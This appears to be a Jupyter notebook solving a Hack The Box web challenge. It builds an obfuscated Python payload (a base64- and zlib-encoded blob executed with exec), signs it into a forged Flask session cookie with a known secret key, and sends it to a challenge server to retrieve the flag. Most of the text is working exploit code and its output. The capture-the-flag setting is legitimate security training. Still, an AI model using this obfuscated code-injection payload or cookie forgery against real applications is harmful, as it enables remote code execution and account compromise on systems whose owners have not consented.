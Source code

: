     d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjtEKwjAMRX+l+JIWZtVX/ZQxQtdmUOzakbYoiP9uticfAod7k9xLb/L6FNetcFNLcvU5lPo4wPrOTLmh2zbrQsDOCbkn0nB5wQAyZaOsS7Up1hYia7BgxvNtMpbJBXMaPoA495hazBUR7qNXS2HlVcxKG4voJUkcodlVOqD2+VBJdG1UXBR412A/8WJnt8reNF6n/cFagjSy/ylf8wPhtklg"'+d+'"base64")'+d+'"zlib")';exec a#



```python
cookie_clear = {u'ingredient': pl_with_encoding_for_ingredient, u'measurements': ' '}
recipe = '%s = %s' % (cookie_clear['ingredient'], cookie_clear['measurements'])
print( "Recipe " + recipe + "\nLEN: " + str(len(recipe)))
```

    Recipe d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjtEKwjAMRX+l+JIWZtVX/ZQxQtdmUOzakbYoiP9uticfAod7k9xLb/L6FNetcFNLcvU5lPo4wPrOTLmh2zbrQsDOCbkn0nB5wQAyZaOsS7Up1hYia7BgxvNtMpbJBXMaPoA495hazBUR7qNXS2HlVcxKG4voJUkcodlVOqD2+VBJdG1UXBR412A/8WJnt8reNF6n/cFagjSy/ylf8wPhtklg"'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN: 298


We have been able to reduce the length of the `recipe` string.


```python
print cookie_clear
```

    {u'measurements': ' ', u'ingredient': 'd=\'%cdecode\'%46+\'%c\'%40;exec "a=%s"%\'"eJxNjtEKwjAMRX+l+JIWZtVX/ZQxQtdmUOzakbYoiP9uticfAod7k9xLb/L6FNetcFNLcvU5lPo4wPrOTLmh2zbrQsDOCbkn0nB5wQAyZaOsS7Up1hYia7BgxvNtMpbJBXMaPoA495hazBUR7qNXS2HlVcxKG4voJUkcodlVOqD2+VBJdG1UXBR412A/8WJnt8reNF6n/cFagjSy/ylf8wPhtklg"\'+d+\'"base64")\'+d+\'"zlib")\';exec a#'}


We have reduced the length. We build the flask cookie from such a payload.


```python
ctf_cookie = from_payload_to_cookie_for_flask(pl_with_encoding_for_ingredient,secret_key)
```


```python
print ctf_cookie
```

    .eJw9kctuozAARX9lxHoWxgRNW6mLQIDYaZwCtsHe8bDCw6YMMGlJlX8vq1lc6d6zvOfbaofrpOpWDYv18m39Kq0XSx7AgDPSy4zcZMQGTGN4WisttpDD_o_Mm63vW0GBrlak8Yp1OjSXYkjC1Kn_xsxOM3-ZT2DE3B4B19dbpsMdy5O-5PxdmXASWt8KvnfrPBkFlF4JY6e46x2N0I0eZEQNBwLIC40I5JTPLHoCte2t1E7OZXZdlcEry0lAAWkLuPsse2TXdugpPjbUIZTY_POcNbLIAic29a7uXUBzr017LGgWxiUIwIXyD5GPPufIqZgr2B2jMpSdCpYjOcpbqvkk4HO_sfeKxevJln5qkuOZcxFrBM4Ue2_3Jk-NCy5HrGkvYNk-d4kJh0IT983Rs-wah0UNKODXgNpqkv48IIObCjJIfDTidem3b1tlvkbRbvu-aBXxDkVBZz1-W0YV879Jmc3P_F8Q2r--Wo_HD6jwlO8.X4R-Ww.3mnjFYZY8PlxslO4VQLgtzZmr1I



```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server1
    Using the url: http://167.172.53.64:30820



```python
res = get_response_from_the_app_using_cookie(url, ctf_cookie)
```


```python
flag = requests.session().get(url+"/w").text
```


```python
print "And the flag is......\n%s"%flag
```

    And the flag is......
    HTB{d1d_y0u_h4v3_FuN_c4lcul4t1nG_Th3_d4rK_m4tt3r?!}
